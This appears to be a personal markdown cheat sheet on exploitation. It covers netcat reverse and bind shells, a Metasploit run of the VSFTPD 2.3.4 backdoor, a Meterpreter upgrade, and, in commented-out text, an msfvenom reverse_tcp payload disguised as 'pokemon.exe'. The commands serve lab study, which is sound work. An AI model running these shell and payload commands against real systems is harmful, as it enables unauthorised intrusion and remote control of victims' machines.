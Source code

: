 <!-- /notes/cyber/exploitation.md -->

<br>

`Last updated: Tue 29 Nov 2022 18:58 IST`

<br>

<h1 id="additional-notes">Additional notes</h1>

## nc

#### Reverse shell:

1. Attacker exploits target's machine  
2. Attacker listens on port<br>`nc -lvp 4444`  
3. Target reverse TCP connection to attacker executing bash shell<br>`nc attacker_ip 4444 -e /bin/bash`

#### Bind shell:

1. Attacker exploits target's machine  
2. Target listens on port and executs bash shell<br>`nc -lvp 4444 -e /bin/bash`  
3. Attacker bind TCP connection to victim at port 4444<br> `nc target_ip 4444`


<br>
<h1 id="metasploit-framework">Metasploit Framework</h1>

## msfdb

```bash
msfdb init
msfdb start
msfdb stop
```

## msfconsole

```bash
help
search
use
```

#### 1. VSFTPD v2.3.4 Backdoor Command Execution

_`msf6 > `_

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
```

_`msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`_

```bash
show options #show exploit options
show payloads #show exploit payloads
set RHOSTS 10.8.22.123 #set module options
set payload 0 #set payload options
exploit #or run
```
##### (Ctrl + Z) to send session to background.

#### 2. Upgrade shell to Meterpreter:

_`msf6 exploit(unix/ftp/vsftpd_234_backdoor) >`_

```bash
sessions #see active sessions
search shell_to #search for module
use post/multi/message/shell_to_meterpreter
```

#### 3. Shell to Meterpreter Upgrade

_`msf6 post(multi/manage/shell_to_meterpreter) >`_

```bash
show options
sessions
set SESSION 1
exploit
sessions
sessions -i 2 #enter meterpreter session
```

##### (Ctrl + Z) to send session to background.

<!--
```bash
use auxiliary/scanner/portscan/syn
```
-->

## msfvenom

```bash
msfvenom -h
msfvenom -l payloads
msfvenom -l formats
```

<!--
#### 1. Set up listener on attacker's machine:

```bash
nc -lvp 7777 -e /bin/bash #listen, verbose, port, execute
```


#### 2. In `msfconsole`:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.172.128
set LPORT 7777
exploit
# set ExitOnSession false
# exploit -j
```

#### 3. Generate payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.172.128 LPORT=7777 -f exe > pokemon.exe
```

#### 4. Send to Windows 7 VM and run it
-->